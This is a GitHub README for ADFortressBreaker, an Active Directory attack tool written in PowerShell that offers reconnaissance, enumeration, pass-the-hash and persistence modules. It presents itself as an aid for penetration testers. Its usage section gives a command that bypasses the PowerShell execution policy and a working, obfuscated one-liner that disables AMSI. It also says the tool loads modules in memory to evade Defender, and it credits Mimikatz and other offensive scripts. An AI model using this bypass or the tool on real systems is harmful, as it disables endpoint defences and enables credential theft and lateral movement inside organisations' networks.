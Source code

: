 <h1 align=center> ADFortressBreaker </h1>

![Default_fortress_breaker_logo_microsoft_windows_cybersecurity_1_b2db1a2f-aaee-41f3-85a0-d73527e5ce6e_0](https://github.com/m4rkh4ck/ADFortressBreaker/assets/92309458/08f54524-3a96-41a0-b294-da0514c611fd)

<h1 align=center><br><img src= https://img.shields.io/badge/Language-Powershell-blue> <img src= https://img.shields.io/badge/Version-v1.0-green> <a href= "https://www.linkedin.com/in/%F0%9F%92%BE-diego-marcaccio-06431970/"><img src= https://img.shields.io/badge/Follow-m4rkh4ck-black> <a href= "https://www.linkedin.com/in/antonio-migliuolo-723598207/"><img src= https://img.shields.io/badge/Follow-synackid-white></h1>

## About ADFortressBreaker
The script has been written to help Ethical Hackers to execute the most common command in a Penetration Test in an Active Directory environment without write any line of code.
It's designed to leave as few traces as possible, so all the module will be loaded directly in memory to avoid defender interception.

## Usage
Before launching AdFortressBreaker it is necessary to bypass powershell execution policy:
```
powershell -ep bypass
```
Then you have to bypass the AMSI control:
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Import the module:
```
. .\ADFortressBreaker.ps1
```

Execute:
```
Invoke-ADFortressBreaker
```

After that the user have to start a web server on port 8000 on his machine.



```
           _____  ______         _                     ____                 _
     /\   |  __ \|  ____|       | |                   |  _ \               | |
    /  \  | |  | | |__ ___  _ __| |_ _ __ ___  ___ ___| |_) |_ __ ___  __ _| | _____ _ __
   / /\ \ | |  | |  __/ _ \| '__| __| '__/ _ \/ __/ __|  _ <| '__/ _ \/ _ | |/ / _ \ '__|
  / ____ \| |__| | | | (_) | |  | |_| | |  __/\__ \__ \ |_) | | |  __/ (_| |   <  __/ |
 /_/    \_\_____/|_|  \___/|_|   \__|_|  \___||___/___/____/|_|  \___|\__,_|_|\_\___|_|


1) Reconnaissance
2) Enumeration
3) PassTheHash
4) Persistence
5) Exit


[*] Start a web server on your machine (exposed on port 8000) to download the .ps1 file

[*} Example: python3 -m http.server

[*] Set the web server ip address :

```

In the main menu the user can choose the activity to do by typing the corresponding number and pressing enter.

## Credits
To implement ADFortressBreaker we used the following tools: <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">Powerview.ps1</a> <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1">PowerUp.ps1</a> <br>
- <a href= "https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1">SharpHound.ps1</a><br> 
- <a href= "https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1">ASREPRoast.ps1</a><br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1">Invoke-Mimikatz.ps1</a><br> 
